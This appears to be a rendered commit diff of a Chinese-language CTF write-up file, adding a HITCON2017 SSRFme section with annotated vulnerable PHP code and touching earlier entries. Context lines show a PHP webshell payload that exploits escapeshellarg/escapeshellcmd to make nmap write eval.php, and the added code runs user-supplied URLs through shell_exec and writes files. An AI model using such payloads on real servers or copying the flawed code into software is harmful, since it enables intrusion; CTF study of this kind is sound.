

Before and after one commit to 181726943/writeup, a Markdown page: ctf-wp.md, 3 parts joined by grey strips. Shown at 87% size. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
HITCON2017-SSRFme(perl语言漏洞)

````diff
--- a/ctf-wp.md
+++ b/ctf-wp.md
@@ -1980,7 +1980,7 @@ escapeshellcmd — shell 元字符转义
 
 1. 传入的参数是：`' <?php @eval($_POST["cmd"]);?> -oG eval.php '`
 经过escapeshellarg处理后变成了`''\'' <?php @eval($_POST["cmd"]);?> -oG aaa.php '\'' '`，即先对单引号转义，再用单引号将左右两部分括起来从而起到连接的作用。
-1. 经过escapeshellcmd处理后变成`''\\'' \<\?php @eval\(\$_POST\["cmd"\]\)\;\?\> -oG aaa.php '\\'' '`，这是因为escapeshellcmd对\以及最后那个不配对儿的引号进行了转义：
+2. 经过escapeshellcmd处理后变成`''\\'' \<\?php @eval\(\$_POST\["cmd"\]\)\;\?\> -oG aaa.php '\\'' '`，这是因为escapeshellcmd对\以及最后那个不配对儿的引号进行了转义：
 最后执行的命令是`nmap -T5 -sT -Pn --host-timeout 2 -F -oG eval.php \ <?php @eval($_POST[cmd]);?> \\`，由于中间的\\被解释为\而不再是转义字符，所以后面的'没有被转义，与再后面的'配对儿成了一个空白连接符。
 
 ### 网鼎杯2020朱雀组Nmap-同样的题目
@@ -2811,8 +2811,51 @@ payload:
 
 3. 到现在就清楚了，首先需要`param=flag.txt`,同时又要`action`中包含`sign`和`read`, 而在`geneSign`函数中`action=scan`,我们需要构造一个包含`read`的payload,再看`getSign`函数,`param`和`action`的顺序正好是`hashlib.md5(secert_key + param + action).hexdigest()`,所以可以`param=flag.txtread`,这样就等于`param=flag.txt`,`action=readscan`。
 
-   获取到`sign`后，bp抓包构造cookie以及param就能拿到flag，
+   获取到`sign`后，bp抓包伪造cookie以及param就能拿到flag，
 
    *注意*：cookie中`action=readscan`
 
-## [BJDCTF2020] EasySearch (SSII-Server-Side Includes Injection（服务端包含注入）)
+## HITCON2017 SSRFme
+
+1. 考点
+   - SSRF
+   - perl语言漏洞
+
+2. 代码审计
+
+    ```php
+    <?php
+    if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
+        # explode 使用一个字符串分割另一个字符串,并以数组形式返回
+        $http_x_headers = explode(',', $_SERVER['HTTP_X_FORWARDED_FOR']);
+        $_SERVER['REMOTE_ADDR'] = $http_x_headers[0];
+    }
+
+    echo $_SERVER["REMOTE_ADDR"];
+    # $sandbox 的值为 sanbox/(orangexx.xx.xx.xx md5加密后的值)
+    $sandbox = "sandbox/" . md5("orange" . $_SERVER["REMOTE_ADDR"]);
+    # 以$sandbox的值创建路径
+    @mkdir($sandbox);
+    # 进入路径
+    @chdir($sandbox);
+    # shell_exec 执行命令
+    # escapeshellarg 把字符串转码为可以在 shell 命令里使用的参数
+    #
+    $data = shell_exec("GET " . escapeshellarg($_GET["url"]));
+    # 返回文件路径的信息 文件名可以通过GET["filename"]传参
+    $info = pathinfo($_GET["filename"]);
+    # basename($info["dirname"])
+    # basename 返回路径中的文件名部分
+    # $info["dirname"] 返回路径中的目录部分
+    # 将 xxx 字符串中的 .  替换成 ''
+    $dir  = str_replace(".", "", basename($info["dirname"]));
+    # 创建文件夹
+    @mkdir($dir);
+    # 进入文件夹
+    @chdir($dir);
+    # 写入文件
+    # 将$data 写入 basename($info["basename"] 文件中
+    @file_put_contents(basename($info["basename"]), $data);
+    highlight_file(__FILE__);
+    ```
+
@@ -3065,7 +3146,7 @@ url解码之后就是 `?code=phpinfo();`
 
         如果上面的payload不能用，可以在`suctf.cc`后加`../../../../../`尝试，多了没问题，少了不行。
 
-## 攻防世界 very_easy_sql(gopher+ssrf+sqli)
+## 攻防世界 very_easy_sql(gopher+sqli)
 
 1. gopher 协议
 
````
Also changed, not shown: other parts of ctf-wp.md (+38 -0 lines).
